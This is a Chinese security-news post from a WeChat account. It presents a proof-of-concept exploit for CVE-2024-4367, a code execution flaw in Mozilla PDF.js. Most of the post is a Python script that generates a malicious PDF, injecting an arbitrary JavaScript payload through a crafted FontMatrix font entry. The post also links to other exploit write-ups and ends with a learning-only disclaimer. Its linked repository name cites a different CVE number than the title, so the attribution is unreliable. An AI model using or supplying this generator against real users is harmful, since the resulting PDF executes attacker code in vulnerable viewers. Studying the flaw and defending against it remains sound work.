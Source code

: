 #  CVE-2024-4367｜Mozilla PDF.js代码执行漏洞（POC）   
alicy  信安百科   2024-05-24 17:56  
  
POC：  
  
https://github.com/LOURC0D3/CVE-2024-24787-PoC  
  
```
import sys


def generate_payload(payload):
    return f"""
%PDF-1.4
%DUMMY
8 0 obj
<<
/PatternType 2
/Shading<<
  /Function<<
    /Domain[0 1]
    /C0[0 0 1]
    /C1[1 0.6 0]
    /N 1
    /FunctionType 2
  >>
  /ShadingType 2
  /Coords[46 400 537 400]
  /Extend[false false]
  /ColorSpace/DeviceRGB
>>
/Type/Pattern
>>
endobj
5 0 obj
<<
/Widths[573 0 582 0 548 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 573 0 573 0 341]
/Type/Font
/BaseFont/PAXEKO+SourceSansPro-Bold
/LastChar 102
/Encoding/WinAnsiEncoding
/FontMatrix [0.1 0 0 0.1 0 (1\);\n{payload.replace('(', '\\(').replace(')', '\\)')}\n//)]
/Subtype/Type1
/FirstChar 65
/FontDescriptor 9 0 R
>>
endobj
2 0 obj
<<
/Kids[3 0 R]
/Type/Pages
/Count 1
>>
endobj
9 0 obj
<<
/Type/FontDescriptor
/ItalicAngle 0
/Ascent 751
/FontBBox[-6 -12 579 713]
/FontName/PAXEKO+SourceSansPro-Bold
/StemV 100
/CapHeight 713
/Flags 32
/FontFile3 10 0 R
/Descent -173
/MissingWidth 250
>>
endobj
6 0 obj
<<
/Length 128
>>
stream
47 379 489 230 re S
/Pattern cs
BT
  50 500 Td
  117 TL
  /F1 150 Tf
  /P1 scn
  (AbCdEf) Tj
  /P2 scn
  (AbCdEf) '
ET
endstream
endobj
3 0 obj
<<
/Type/Page
/Resources 4 0 R
/Contents 6 0 R
/Parent 2 0 R
/MediaBox[0 0 595.2756 841.8898]
>>
endobj
10 0 obj
<<
/Length 800
/Subtype/Type2
>>
stream

endstream
endobj
7 0 obj
<<
/PatternType 1
/Matrix[1 0 0 1 50 0]
/Length 58
/TilingType 1
/BBox[0 0 16 16]
/YStep 16
/PaintType 1
/Resources<<
>>
/XStep 16
>>
stream
0.65 g
0 0 16 16 re f
0.15 g
0 0 8 8 re f
8 8 8 8 re f
endstream
endobj
4 0 obj
<<
/Pattern<<
  /P1 7 0 R
  /P2 8 0 R
>>
/Font<<
  /F1 5 0 R
>>
>>
endobj
1 0 obj
<<
/Pages 2 0 R
/Type/Catalog
/OpenAction[3 0 R /Fit]
>>
endobj

xref
0 11
0000000000 65535 f
0000002260 00000 n
0000000522 00000 n
0000000973 00000 n
0000002178 00000 n
0000000266 00000 n
0000000794 00000 n
0000001953 00000 n
0000000015 00000 n
0000000577 00000 n
0000001085 00000 n
trailer
<<
/ID[(DUMMY) (DUMMY)]
/Root 1 0 R
/Size 11
>>
startxref
2333
%%EOF
"""


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <payload>")
        sys.exit(1)
    print("[+] Created malicious PDF file: poc.pdf")
    print("[+] Open the file with the vulnerable application to trigger the exploit.")

    payload = generate_payload(
        sys.argv[1])
    with open("poc.pdf", "w") as f:
        f.write(payload)

    sys.exit(0)

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6uqiaMKmibX6SRW8jKUPzMCepuZhNRI1zHla7eiboIDHJARmZzvAzv2HWvy5BbRZAedwtKAwYNtVXRaMg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6uqiaMKmibX6SRW8jKUPzMCepulwxy9IPicz7oSLgxV1vmia25ePK9RL40xhl7jIO4wWBrHoQSicPdMCS7A/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-22120｜Zabbix Server SQL注入漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485330&idx=1&sn=bb73073b980cf1d08521894426b87ce3&chksm=cea96e4bf9dee75dd070ad646a83523babf954302a232d0291b9ca3db7783e13e9db60d449ef&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-4040｜CrushFTP 认证绕过模板注入漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485251&idx=2&sn=a5e3bb1742e53371e2a85d0f35945065&chksm=cea96e9af9dee78c46e8fc88f3c2d16534aff64506f8182bfc520d8d865c2c866bba12db5e35&scene=21#wechat_redirect)  
  
  
  
[N/A｜kkFileView 任意文件上传导致远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485230&idx=2&sn=1a7e2db8d66b6d96c04e806ca38f1735&chksm=cea96ef7f9dee7e1839fbeb90b3eea0137949aea556a4dc585e9876a7171841b7792614d737d&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
